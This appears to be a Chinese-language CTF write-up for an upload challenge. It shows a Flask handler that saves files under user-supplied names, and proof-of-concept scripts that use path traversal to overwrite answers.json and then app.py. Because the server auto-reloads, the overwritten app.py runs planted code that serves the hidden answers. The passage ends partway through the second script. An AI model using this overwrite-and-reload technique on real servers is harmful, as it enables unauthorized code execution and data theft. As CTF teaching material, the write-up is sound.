 ## 禁止内卷

> 此题解使用了 AI 辅助创作，聊天记录见 [CTF 文件读取漏洞](https://chatgpt.com/share/672db23a-8ea4-800f-9a61-e5c38da2212c)。

### 思路 1 - 覆盖

显然，此程序有文件上传漏洞，允许用户覆盖任意文件：

```python
@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)
```

我们编写一个简单的 POC 来验证此漏洞：

```python
from requests import Session

URL = "<URL>"
FILE = "data.json" # Any JSON file with 500 [0, 100] integers
x = Session()

r = x.post(URL + "submit", files={
    # "file": (FILE, open(FILE, "rb"))
    "file": ("../web/answers.json", open(FILE, "rb"))
}, allow_redirects=False)

print(r.status_code, r.text)
```

运行此脚本后重新访问主页，可以看到分数为 0，说明已经成功 **覆盖** 了原始数据，主要的问题是如何利用此漏洞来 **读取** 原始数据。

这里其实我想了挺久，最后还是 ChatGPT 的回答 (`方法 1：覆盖 index.html`) 给了我启发。注意到题目特别说明了：

> 而且有的时候助教想改改代码，又懒得手动重启，所以还开了 `--reload`。

这意味着我们可以通过覆盖 `app.py`，从而执行我们自己的代码。那么构造如下 POC：

```python
from requests import Session

URL = "https://chal02-8ab3oyj7.hack-challenge.lug.ustc.edu.cn:8443/"
PAYLOAD = """
from flask import Flask, send_file
import json

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    try:
        return send_file("answers.json")
    except Exception as e:
        return f"Error: {e}"

if __name__ == "__main__":
    app.run(debug=True)
"""
x = Session()

```